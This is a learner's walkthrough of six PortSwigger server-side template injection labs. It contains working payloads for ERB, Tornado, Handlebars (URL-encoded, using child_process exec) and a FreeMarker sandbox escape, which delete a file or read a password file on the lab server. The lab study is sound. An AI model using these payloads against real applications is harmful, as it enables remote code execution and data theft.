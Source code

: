 # Portswigger Writeups

## Lab 1: Basic SSTI

When viewing the requests sent upon viewing a product, this is what I see:

![](../../.gitbook/assets/portswigger-ssti-writeup-image.png)

Further testing reveals that this `message` parameter is printed on the screen:

![](../../.gitbook/assets/portswigger-ssti-writeup-image-1.png)

Using `<%= 7/0 %>` causes a 500 error. This means that the template is processing information insecurely. Using this, I can execute `system("rm /home/carlos/morale.txt")`.

## Lab 2: Basic SSTI with Code Context

This lab provides me with a 'preferred name' feature:

![](../../.gitbook/assets/portswigger-ssti-writeup-image-2.png)

When the request is viewed, I saw that it uses `user.first_name`.

![](../../.gitbook/assets/portswigger-ssti-writeup-image-3.png)

It looks like this is dynamically retrived. This lab uses a Tornado template, and since it uses `user.first_name`, the input might be processed like this:

```
{{user.first_name}}
```

Since the above is probably not sanitised, I can do enter `}}{{6*6`. This might cause the expressions evaluated to be:

```
{{user.first_name}}{{6*6}} (the last 2 brackets are automatically there)
```

The method above works, and the '36' is reflected when I leave a comment on a post. Using this method, one can execute Python using the following format:

```
{% import os %}{{os.system('rm /home/carlos/morale.txt')
```

Afterwards, leave a comment on any post.

## Lab 3: Using Documentation

This particular lab requires us to identify the template engine used.

The lab provides us with a 'Edit template' option.

![](../../.gitbook/assets/portswigger-ssti-writeup-image-4.png)

Using this, I can attempt to identify the template used using this payload:

```
${7*7}
{{7*7}}
{{7*'7'}}
a{*comment*}b
${"z".join("ab")}
```
The first one is processed!

![](../../.gitbook/assets/portswigger-ssti-writeup-image-5.png)

I went to PayloadAllTheThings and tested all the frameworks of which this worked with, and found that it was FreeMarker being used:

![](../../.gitbook/assets/portswigger-ssti-writeup-image-6.png)

There are quite a few payloads for code execution:

![](../../.gitbook/assets/portswigger-ssti-writeup-image-7.png)

The rest of the lab is trivial.

## Lab 4: Unknown Language

Firstly, this lab uses the `message` parameter, and using `{{7*7}}` results in an error:

![](../../.gitbook/assets/portswigger-ssti-writeup-image-8.png)

The above uses Handlebars. Hacktricks has a payload for this, which can be modified to solve the lab:

```
%7B%7B%23with%20%22s%22%20as%20%7Cstring%7C%7D%7D%0D%0A%20%20%7B%7B%23with%20%22e%22%7D%7D%0D%0A%20%20%20%20%7B%7B%23with%20split%20as%20%7Cconslist%7C%7D%7D%0D%0A%20%20%20%20%20%20%7B%7Bthis%2Epop%7D%7D%0D%0A%20%20%20%20%20%20%7B%7Bthis%2Epush%20%28lookup%20string%2Esub%20%22constructor%22%29%7D%7D%0D%0A%20%20%20%20%20%20%7B%7Bthis%2Epop%7D%7D%0D%0A%20%20%20%20%20%20%7B%7B%23with%20string%2Esplit%20as%20%7Ccodelist%7C%7D%7D%0D%0A%20%20%20%20%20%20%20%20%7B%7Bthis%2Epop%7D%7D%0D%0A%20%20%20%20%20%20%20%20%7B%7Bthis%2Epush%20%22return%20require%28%27child%5Fprocess%27%29%2Eexec%28%27rm+/home/carlos/morale.txt%27%29%3B%22%7D%7D%0D%0A%20%20%20%20%20%20%20%20%7B%7Bthis%2Epop%7D%7D%0D%0A%20%20%20%20%20%20%20%20%7B%7B%23each%20conslist%7D%7D%0D%0A%20%20%20%20%20%20%20%20%20%20%7B%7B%23with%20%28string%2Esub%2Eapply%200%20codelist%29%7D%7D%0D%0A%20%20%20%20%20%20%20%20%20%20%20%20%7B%7Bthis%7D%7D%0D%0A%20%20%20%20%20%20%20%20%20%20%7B%7B%2Fwith%7D%7D%0D%0A%20%20%20%20%20%20%20%20%7B%7B%2Feach%7D%7D%0D%0A%20%20%20%20%20%20%7B%7B%2Fwith%7D%7D%0D%0A%20%20%20%20%7B%7B%2Fwith%7D%7D%0D%0A%20%20%7B%7B%2Fwith%7D%7D%0D%0A%7B%7B%2Fwith%7D%7D
```

## Lab 5: Information Disclosure via User-Supplied Objects

To solve this lab, steal the secret key from the website. By trying to edit the content of a post with this:

```
${7*7}
{{7*7}}
{{7*'7'}}
a{*comment*}b
${"z".join("ab")}
```

It causes this error:

![](../../.gitbook/assets/portswigger-ssti-writeup-image-9.png)

So this runs on Django. Using `{% debug %}` reveals a ton of information, and actually it shows some Jinja2 debug stuff:

![](../../.gitbook/assets/portswigger-ssti-writeup-image-10.png)

I can then use this payload to extract the key to solve the lab:

![](../../.gitbook/assets/portswigger-ssti-writeup-image-11.png)

## Lab 6: Sandboxed Environment

This lab uses the Freemarker template engine. To solve the lab, read `/home/carlos/my_password.txt`. This lab gives us `content-manager` access.

{% embed url="https://portswigger.net/research/server-side-template-injection" %}

This is the payload they used:

```java
${product.getClass().getProtectionDomain().getCodeSource().getLocation().toURI().resolve('/home/carlos/my_password.txt').toURL().openStream().readAllBytes()?join(" ")}
```

![](../../.gitbook/assets/portswigger-ssti-writeup-image-12.png)

Converting this to ASCII and submitting that solves the lab. I will dive into this exploit...another time. WIP!
